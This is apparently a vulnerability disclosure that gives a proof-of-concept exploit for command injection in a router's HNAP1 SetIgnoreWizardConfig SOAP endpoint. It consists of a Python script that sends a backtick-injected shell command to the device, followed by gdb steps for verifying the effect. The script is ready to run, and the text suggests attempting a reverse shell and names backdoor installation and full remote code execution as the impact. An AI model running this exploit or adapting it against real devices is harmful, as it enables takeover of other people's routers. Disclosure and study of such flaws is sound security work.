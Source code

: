 ```apl
// modifying configurations, downloading and executing backdoors, etc., leading to full device compromise (RCE).
```



1. Construct exp and save as exp_823g.py — attempt reverse shell if desired.

```python
import requests

ip = "192.168.0.1"

command = "'`echo 12345 > hack.txt`'"
length = len(command)

# headers = requests.utils.defaut_headers()
headers = requests.utils.default_headers()
headers["User-Agent"] = "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0"
headers["Accept"]='*/*'
headers["Accept-Language"]="en-US,en;q=0.5"
headers["Accept-Encoding"]="gzip, deflate, br"
headers["Content-Type"]="text/xml; charset=utf-8"
headers["SOAPAction"]='"http://purenetworks.com/HNAP1/SetIgnoreWizardConfig"'
headers["Content-Length"]=str(length)

payload=command
r=requests.post('http://'+ip+'/HNAP1',headers=headers,data=payload)
```



1. Verify dynamically using gdb.

```apl
# After connecting to gdb, set breakpoints at 0x0042383C and 0x00423A0C
# After setting breakpoints, run (C) and send the exploit to observe behavior
```



![](/Image/823g-7.png)
